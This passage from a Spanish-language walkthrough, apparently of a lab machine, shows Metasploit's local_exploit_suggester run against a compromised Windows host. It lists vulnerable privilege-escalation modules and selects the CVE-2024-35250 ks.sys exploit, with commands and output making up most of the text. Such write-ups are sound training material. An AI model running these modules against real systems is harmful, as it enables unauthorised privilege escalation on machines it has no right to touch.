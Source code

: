 Vamos a usar el módulo `post/multi/recon/local_exploit_suggester` para obtener una lista de Exploits que nos puedan ayudar a escalar privilegios:
```bash
msf6 exploit(windows/misc/hta_server) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > exploit
[*] 192.168.69.69 - Collecting local exploits for x64/windows...
[*] 192.168.69.69 - 203 exploit checks are being tried...
...
...
...
#   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/bypassuac_sluihijack                     Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/cve_2019_1458_wizardopium                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The target appears to be vulnerable. Vulnerable Windows 10 v1607 build detected!
 8   exploit/windows/local/cve_2020_1048_printerdemon               Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/cve_2020_1337_printerdemon               Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/cve_2021_40449                           Yes                      The target appears to be vulnerable. Vulnerable Windows 10 v1607 build detected!
 11  exploit/windows/local/cve_2022_21999_spoolfool_privesc         Yes                      The target appears to be vulnerable.
 12  exploit/windows/local/cve_2024_30088_authz_basep               Yes                      The target appears to be vulnerable. Version detected: Windows Server 2016
 13  exploit/windows/local/cve_2024_35250_ks_driver                 Yes                      The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows Server 2016
 14  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 15  exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.
```
Salieron varios Exploits, pero el que nos va a servir será `exploit/windows/local/cve_2024_35250_ks_driver`.

Este Exploit se aprovecha del driver ks.sys que es un componente del **Kernel Streaming (KS)** y se encuentra instalado por defecto en **Windows 10**. Este Exploit pertenece al **CVE-2024-35250**.
